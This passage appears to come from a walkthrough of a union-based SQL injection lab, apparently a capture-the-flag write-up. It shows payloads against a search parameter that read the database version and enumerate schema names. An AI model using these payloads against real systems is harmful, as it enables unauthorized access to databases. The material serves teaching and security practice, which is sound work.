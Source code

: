 <br />

As we see, we have six columns.<br />
Now, let's get the database type and version.<br />
`search=a' union select @@version,2,3,4,5,6 -- -`.

![](Pics/sql5.png)
<br />
<br />

Great, we could retrieve data from the database, let's find how many databases exist.<br />
`search=a' union select schema_name,2,3,4,5,6 from information_schema.schemata -- -`.

![](Pics/sql6.png)
<br />
<br />
